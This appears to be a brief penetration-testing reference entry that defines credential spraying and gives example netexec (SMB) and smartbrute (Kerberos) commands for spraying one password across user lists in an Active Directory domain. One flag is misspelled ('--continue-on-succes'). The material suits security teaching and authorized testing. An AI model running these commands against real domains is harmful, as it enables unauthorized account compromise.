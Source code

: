 Credential spraying is a technique that attackers use to try a few passwords (or keys) against a set of usernames instead of a single one. 
```bash
# netexec example
nxc smb target_ip -d domain.local -u users.txt -p "password" --no-bruteforce --continue-on-succes

# smartbrute example (dynamic user list)
smartbrute smart -bp "password" kerberos -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --kdc-ip "$KDC" kerberos

# smartbrute example (static users list)
smartbrute brute -bU users.txt -bp "password" kerberos --kdc-ip "$KDC"
```